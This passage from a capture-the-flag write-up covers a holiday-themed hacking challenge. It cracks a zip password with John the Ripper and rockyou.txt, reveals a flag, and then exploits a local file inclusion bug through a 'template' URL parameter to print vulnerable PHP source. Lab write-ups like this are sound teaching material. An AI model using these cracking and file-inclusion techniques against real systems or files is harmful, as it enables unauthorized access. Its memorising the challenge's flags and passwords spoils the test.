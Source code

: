 Surely, this is nothing before the might of John the Ripper, particularly since we'll be cracking locally!

First, we'll need to convert it to a format that John can understand.
```bash
zip2john my_secure_files_not_for_you.zip > zippass.txt
```

Next, let John loose on the hash retrieved from the zip-file, using the infamous password list `rockyou.txt`! 
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zippass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hahahaha         (my_secure_files_not_for_you.zip)
1g 0:00:00:00 DONE (2020-12-29 11:21) 25.00g/s 409600p/s 409600c/s 409600C/s 123456..cocoliso
Warning: passwords printed above might not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Seems like `hahahaha` is the password we're looking for. Providing that as a password when extracting `flag.txt` from the zip-file gives us access to the fifth flag `flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}`: 
{F1138491}


## /my-diary - the sixth flag
Seems like the Grinch has been keeping a diary - I wonder if he's written anything about his upcoming plans to ruin Christmas for everyone?

{F1138492}

A first look doesn't reveal anything of particular interest bar the fact that he is planning to ruin Christmas on the 25th... Oh, and it seems as if his diary might be vulnerable to LFI attacks since the address bar looks like this:
{F1138494}

Let's see what happens if we try to include `index.php` by visiting https://hackyholidays.h1ctf.com/my-diary/index.php?template=index.php:
{F1138493}

A blank page. Huh. But is it, though? Let's have a look at the Networks tab of the browser:

{F1138495}

Turns out, the page is vulnerable to LFI and we have gotten the source code of the `index.php` file.

```php
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
```